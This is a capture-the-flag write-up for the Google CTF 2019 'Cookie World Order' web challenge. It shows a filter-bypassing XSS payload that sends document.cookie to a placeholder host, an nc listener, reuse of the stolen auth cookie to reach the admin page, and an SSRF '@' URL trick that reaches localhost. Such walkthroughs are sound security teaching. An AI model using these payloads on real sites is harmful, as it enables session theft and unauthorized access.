 ## Write-up: **Cookie World Order**

Google CTF 2019: [Beginner’s Quest](https://capturetheflag.withgoogle.com/#beginners/)

![Task](img/task.jpg)

This is a `web` challenge that involves an XSS attack: <https://cwo-xss.web.ctfcompetition.com>

We are presented a chat widget and we can chat as user “brewtoot” with user “Admin”. There appears to be a word filter in place, since `<script>` outputs the message “HACKER ALERT!”.

![Chat](img/chat.jpg)

`<SCRIPT>` on the other hand works. Our goal is to have the other person disclose their browser cookie. This line is sufficient:

```html
<SCRIPT>new Image().src="https://PUBLIC_URL/"+document.cookie</SCRIPT>
````

Note that there will be two incoming requests, one from ourselves and one from the victim. [PostBin](https://postb.in) is a great tool for this, but netcat also works if timed correctly:

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 46010 received!
GET /?flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};%20auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz HTTP/1.1
## ...
Referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT%3Enew%20Image().src=%22http://PUBLIC_URL/%22+document.cookie%3C/SCRIPT%3E
## ...
```

**Flag 1**: `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`

## Flag 2

In addition to the flag, the cookie also contains an `auth` token which we can use to find the second flag.

First, we observe that there is a hidden page at https://cwo-xss.web.ctfcompetition.com/admin, which redirects to the start page. The [Government Agriculture Network](https://github.com/weibell/ctf-google2019-beginners/tree/master/write-up#day3-easier) challenge is very similar in this regard.

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 302 FOUND
Date: Sun, 23 Jun 2019 11:50:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 209
Server: gunicorn/19.9.0
Location: http://cwo-xss.web.ctfcompetition.com/
Via: 1.1 google

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

And this is when we make the same request with the `auth` token set:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:51:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1115
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-side-nav">
      <a href="/admin/users">
        <div class="admin-side-item">
          Users
        </div>
      </a>
      <a href="/admin/livestreams">
        <div class="admin-side-item">
          Livestreams
        </div>
      </a>
      <a href="/admin/controls">
        <div class="admin-side-item">
          Camera Controls
        </div>
      </a>
    </div>
    <div class="admin-container">
      <div class="admin-message">
        
      </div>
    </div>
  </body>
</html>
```

Unfortunately, we cannot access <https://cwo-xss.web.ctfcompetition.com/admin/controls> just yet:

```
GET /admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 403 FORBIDDEN
Date: Sun, 23 Jun 2019 11:55:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 37
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

Requests only accepted from 127.0.0.1
```

After some trial and error, we find that we can try to use `/watch?livestream=...` for a Local File Inclusion attack. However, it comes with a catch: `/watch?livestream=...` requires the file to begin with `http://cwo-xss.web.ctfcompetition.com`. We can use this trick as a workaround:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@postb.in/b/0123456789 HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

After confirming that this request goes through, we can finally grab the second flag, found at <http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls>:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:57:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1529
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-wrapper">
      <div class="admin-side-nav">
        <a href="/admin/users">
          <div class="admin-side-item">
            Users
          </div>
        </a>
        <a href="/admin/livestreams">
          <div class="admin-side-item">
            Livestreams
          </div>
        </a>
        <a href="/admin/controls">
          <div class="admin-side-item">
            Camera Controls
          </div>
        </a>
      </div>
      <div class="admin-container">
        <div class="admin-message">
          CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}
        </div>
        <div class="controls-title">
          Livestream Controls
        </div>
        <div class="livestream-video">
          <video loop autoplay muted src="/watch?livestream=http://localhost//livestream/garden-livestream.webm" />
        </div>
      </div>
    </div>
  </body>
</html>


```

There it is, the second flag!

**Flag 2**: `CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}`

